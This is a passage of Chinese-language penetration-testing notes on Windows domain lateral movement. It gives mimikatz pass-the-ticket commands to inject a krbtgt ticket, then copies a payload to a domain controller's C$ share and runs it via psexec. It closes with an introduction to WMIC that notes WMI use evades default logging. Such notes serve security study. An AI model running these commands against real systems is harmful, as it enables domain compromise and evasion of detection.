 #### 清除内存中的票据

```
shell klist purge
mimikatz kerberos::purge
两个都是清除票据
```

#### 将高权限的票据文件注入内存

```
mimikatz kerberos::ptt [0;fea0c2]-2-0-40e10000-Administrator@krbtgt-HACK.COM.kirbi
```

#### 查看票据

```
shell klist
mimikatz kerberos::tgt
```

#### 远程复制

```
copy C:\Users\mb\Desktop\1.exe \\dc.hack.com\C$
```

#### 远程上线

```
psexec.exe \\dc.hack.com -h -d c:\1.exe
```



# wmic远程执行命令横向移动

## 什么是WMI

WMI是Windows在Powershell还未发布前，微软用来管理Windows系统的重要数据库工具，WMI本身的组织
架构是一个数据库架构，WMI服务使用DCOM或WinRM协议,自从PsExec在内网中被严格监控后，越来越多3
的反病毒厂商将PsExec加入了黑名单，于是黑客们渐渐开始使用WMI进行横向移动。通过渗透测试发现，在
使用wmiexec进行横向移动时，windows 操作系统默认不会将WMI的操作记录在日志中。因此很多APT开
始使用WMI进行攻击。

WMIC扩展WMI (Windows Management Instrumentation, Windows管理工具)， 提供了从命令行接口
和批处理脚本执行系统管理的支持。

简单来说: wmic就是wmic.exe, 位于windows目录底下，是一个命令行程序。WMIC可以以两种模式执行:交
互模式(Interactive mode)和非交互模式(Non-Interactive mode), WMI就是Windows Management
Instrumentation (Windows 管理规范)。它是Windows中的一一个核心管理技术。

## WMIC常见命令

wmic命令需要*本地管理员或域管理员*才可以进行正常使用，普通权限用户若想要使用wmi,可以修改普通用户的
ACL,不过修改用户的ACL也需要管理员权限，普通用户使用wmic。以下命令均在2008R2、2012R2、 2016上
进行测试部分命令在虚拟机中测试不行。
